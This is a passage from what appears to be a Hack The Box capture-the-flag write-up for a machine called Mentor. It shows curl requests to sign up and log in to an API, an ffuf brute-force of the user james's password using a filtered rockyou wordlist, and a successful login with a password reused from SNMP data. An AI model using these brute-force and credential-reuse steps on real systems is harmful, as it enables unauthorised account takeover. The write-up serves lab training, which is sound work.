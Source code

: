 ```console
$ curl http://api.mentorquotes.htb/auth/signup -X POST -H "Content-Type: application/json" -d '{"email": "x@x.x", "username": "xxxxx", "password": "xxxxxxxx"}'
{"id":4,"email":"x@x.x","username":"xxxxx"}
```

Logging in:

```console
$ curl http://api.mentorquotes.htb/auth/login -X POST -H "Content-Type: application/json" -d '{"email": "x@x.x", "username": "xxxxx", "password": "xxxxxxxx"}'
"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Inh4eHh4IiwiZW1haWwiOiJ4QHgueCJ9.7D5GPsEWtTg2HosVBbkQV2aKMmi68xFC_BY5NeQFEbY"
```

But I can't even read the quotes because the functionality is limited to admin users:

```console
$ curl http://api.mentorquotes.htb/quotes/ -X POST -H "Content-Type: application/json" -H "Authorization: $token"
{"detail":"Only admin users can access this resource"}
```

Instead I decide to try brute-forcing the password for `james`. First I'll filter `rockyou.txt` for only passwords containing eight or more characters, per the target's policy:

```console
$ grep -E '^.{8,}$' rockyou.txt > ~/rockyou-8ormore.txt

$ wc -l rockyou.txt ~/rockyou-8ormore.txt
 14344391 rockyou.txt
  9607061 /home/e/rockyou-8ormore.txt
 23951452 total
```

```console
$ ffuf -u http://api.mentorquotes.htb/auth/login/ -X POST -H "Content-Type: application/json" -w ~/rockyou-8ormore.txt -r -d '{"email": "james@mentorquotes.htb", "username": "james", "password": "FUZZ"}' -mc 200
...
```

Unfortunately, that yields no joy.

I try the password from the SNMP `internal` listing, and it works:

```json
$ curl http://api.mentorquotes.htb/auth/login -H "Content-Type: application/json" -d '{"email": "james@mentorquotes.htb", "username": "james", "password": "kj23sadkj123as0-d213"}' -v
* Host api.mentorquotes.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.193
*   Trying 10.10.11.193:80...
* Connected to api.mentorquotes.htb (10.10.11.193) port 80
> POST /auth/login HTTP/1.1
> Host: api.mentorquotes.htb
> User-Agent: curl/8.5.0
> Accept: */*
> Content-Type: application/json
> Content-Length: 92
>
< HTTP/1.1 200 OK
< Date: Thu, 02 Jan 2025 19:12:27 GMT
< Server: uvicorn
< content-length: 154
< content-type: application/json
<
* Connection #0 to host api.mentorquotes.htb left intact
"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0"
```